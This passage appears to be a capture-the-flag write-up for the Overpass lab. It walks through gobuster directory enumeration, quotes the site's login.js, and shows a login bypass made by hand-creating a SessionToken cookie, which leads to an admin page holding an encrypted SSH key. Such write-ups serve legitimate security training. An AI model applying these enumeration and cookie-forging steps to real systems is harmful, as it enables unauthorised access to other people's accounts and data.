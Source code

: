  ```
  gobuster dir -u http://10.10.196.17 -w /usr/share/wordlists/dirb/common.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /aboutus              (Status: 301) [Size: 0] [--> aboutus/]
  /admin                (Status: 301) [Size: 42] [--> /admin/]
  /css                  (Status: 301) [Size: 0] [--> css/]
  /downloads            (Status: 301) [Size: 0] [--> downloads/]
  /img                  (Status: 301) [Size: 0] [--> img/]
  /index.html           (Status: 301) [Size: 0] [--> ./]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- That `admin` directory looks suspicious so let's visit it `http://10.10.196.17/admin/`. Perfect, it's a login page.

- So right here, I took some time trying different SQLI options in order to bypass authentication but nothing worked. After that, I started exploring previous web pages in order to find a new clue, and I did.
  In the login page source code you can find a `/login.js` file with valuable info!

  ```
  }
  async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
  }
  ```
  
- Now we know that login page needs a token/cookie in order for us to access it, so let's create one. Open developer tools on login page, go to Storage and click on + sign and it will create a new cookie for you.
  Now just change the name of that cookie to `SessionToken` as it is required per `/login.js` file and reload the page. Voila, you are in the admin panel.

  ```
  Welcome to the Overpass Administrator area
  A secure password manager with support for Windows, Linux, MacOS and more
  
  Since you keep forgetting your password, James, I've set up SSH keys for you.
  
  If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
  Also, we really need to talk about this "Military Grade" encryption. - Paradox
  
  -----BEGIN RSA PRIVATE KEY-----
  Proc-Type: 4,ENCRYPTED
  DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337
  
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  ```